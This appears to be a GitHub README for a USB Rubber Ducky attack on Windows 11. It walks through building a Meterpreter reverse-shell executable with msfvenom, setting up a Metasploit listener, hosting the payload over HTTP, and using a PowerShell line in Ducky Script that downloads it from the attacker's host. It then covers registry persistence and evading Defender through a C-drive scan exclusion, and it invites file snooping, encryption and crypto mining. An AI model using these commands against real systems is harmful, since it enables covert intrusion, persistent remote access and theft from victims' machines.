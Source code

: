 # Windows 11 Ducky PWN

## *** Notice Educational Purposes Only ***

## Description 
For this project I utilized a USB Rubber Ducky from Hak5 and the Kali Linux tools 'msfvenom', 'msfconsole', and 'meterpreter'. Through these tools I deployed a reverse shell, esatblished persistence, 
and cleaned up my suspicous activity. For my attacking machine I used Kali Linux and my victim machine Windows 11 (with all default security enabled). This attack is able to bypass all Windows 11 default security 
features and maintain undetected persetence through the use of modifying the Default User's Windows Registers.

## Video Demo
[![Watch the Demo](screenshot.png)](https://www.youtube.com/watch?v=YOUR_VIDEO_ID)

## Walkthrough

### Requirements
- Windows 11 machine or virtual machine
- Kali Linux machine or virtual machine
- USB Rubber Ducky (any version)
- Interent Connection
- NAT Network if using VM's (Need communication between VMS)
  
### Preparing Kali Machine
#### Generate Payload
- Use 'msfvenom' to genrate our malicous executable
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe > /home/x/Desktop/nice3.exe</pre>
- LHOST is the IP adderess of our attacking machine that will act as the server to connect back to replace x.x.x.x with you machines IP
- For /home/x/Desktop/nice3.exe replace x with your Kali Linux username eg /home/Meeps-Underflow/Desktop/nice3.exe
- nice3.exe is the name of our reverse shell executable

![image](https://github.com/user-attachments/assets/98c5b8c5-ab47-45e5-9e0e-c21d1d759ca2)

#### Set Up Listener 
- Open Terminal and use 'msfconsole' to start a Metasploit CLI
<pre>msfconsole</pre>
- Pass parameters for our listener
<pre>use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST x.x.x.x
set LPORT 4444
set ExitOnSession false
exploit -j</pre>
- Replace LHOST x.x.x.x with the same IP you used to genrate the payload eg your Kali Machine IP

![image](https://github.com/user-attachments/assets/61c9f16f-d1d8-4629-9d16-55a5eeaef2d5)

#### Set Up HTTP Server 
- On another Terminal we will host a HTTP server on our Kali Machine containing nice3.exe to be downlaoded
- We will use python3 to create this server on port 80
- Make sure to 'cd' into the directory containing nice3.exe, for me it will be in Desktop
<pre>cd Desktop/</pre>
<pre>python3 -m http.server 80</pre>

![image](https://github.com/user-attachments/assets/6106ade6-483d-4833-9248-fda99cec063c)
- If your curiosu what the actual website looks like you can visit 'x.x.x.x:80' where x.x.x.x is your Kali Machines IP

![image](https://github.com/user-attachments/assets/4fe0322c-2ecb-42b0-920a-458d1c29f56f)


### Preparing USB Rubber Ducky
#### Download Repository 
<pre>git clone https://github.com/Meeps-Underflow/Win11_Ducky_PWN.git</pre>
- Verify download should see all contents of my repository on your machine eg win11_ducky_pwn.txt

![image](https://github.com/user-attachments/assets/41f03a31-1c7d-4f81-bc8d-e35bf957e0db)

#### Convert Ducky Script to .bin
- Visit [Hak5 Payload Studio](https://payloadstudio.hak5.org/community/) follow the introduction and when prompted choose USB Rubber Ducky as your device
- Click File -> Open/Import -> Upload File -> Locate your win11_ducky_pwn.txt file -> Upload
- Take a moment to read over code to undersatnd what is happening
- Change line 63 x.x.x.x to Kali Machine IP eg the http server holding nice3.exe
<pre>STRING powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://x.x.x.x/nice3.exe', 'C:\Users\Default\AppData\Roaming\Microsoft\Windows\nice3.exe')"
</pre>
- Generate Payload
- Download inject.bin ** Don't change name **

#### Load USB Rubber Ducky With Payload
- Plug in your USB Rubber Ducky make sure it is not in attack mode
- Open 'Ducky'
- Move inject.bin from 'Downloads' into 'Ducky'

![image](https://github.com/user-attachments/assets/12900457-30d7-4937-8dda-d408e6bd3e3a)
- Safely unmount 'Ducky'

### Attack

#### Boot Up Windows 11
- Start up your fresh Windows 11 Machine
- Ensure all default security features in 'Windows Security' are enabled

![image](https://github.com/user-attachments/assets/24ca4ef9-af40-4bb9-89f8-75cdd84c8e42)

- Ensure all default security features in 'Exploit Protection' are enabled

#### Deploying the Duck
- Now that yor Windows Machine is up and running and you have confirmed all the secuirty features you wish to confirm its time to deploy the duck
- Plug in your USB Rubber Ducky into your Windows 11 Machine and sit back and watch
- After execution is complete go back to your Kali Machine and go to the Terminal that has the msf6 session
- You shhoul see that we now have a successful reverse TCP connection with our victim

![image](https://github.com/user-attachments/assets/34d67397-1a26-46dd-8a3f-12d755640302)

- In order to interact with the session do
<pre>sessions -i n</pre>
- Where n is the session id 
- Lets start a shell to see that we truly have access to the victims machine
<pre>shell</pre>
- And run a simple windows cmd command to see whats going on 'ipconfig'

![image](https://github.com/user-attachments/assets/d32db17a-d28e-4af9-839e-c3fa07cfb151)

- Now that we clearly have a reverse shell that is working on the victims machine it is up to you the attacker to do whatever you wish escalate privledges,snoop files, encrypt files, mine crypto...
- You can do this within a meterpreter shell or a windows shell
- After confirming reverse shell we can terminate our http server by going back to the Terminal and inputing Ctrl + c

#### Test Persestence 
- In order to test persestence we will restart our windows VM and see if our listener on our Kali Machine will get another session when the Windows Machine Boots Back up

![image](https://github.com/user-attachments/assets/f0bddd65-b922-48e1-8ba7-0ecc4f7a7fa3)

- After the machine restarts go back to our msf6 session and wait for a new session to appear

![image](https://github.com/user-attachments/assets/8a118ee2-7306-491e-8171-d7c86d8c8cd9)

- As you can see a new session was created from the machine we previusly exploited verifying that our persestence works

#### Test Microsoft Defender Scan
- Lets now test to see if Microsoft Defender quick scan can detect our malware

##### Test 1
- First we will run quick scan 

![image](https://github.com/user-attachments/assets/bc4072f0-1f59-4356-83ff-1b6171eb1114)

- As you can see nothing was found but it rasied an exception saying how we are excluding the C drive from scans

![image](https://github.com/user-attachments/assets/cc789579-199e-48be-ba83-c845ec55c1e0)


##### Test 2
- Now lets remove that exclusion on the C drive and run a quick scan again to see if that finds our malware





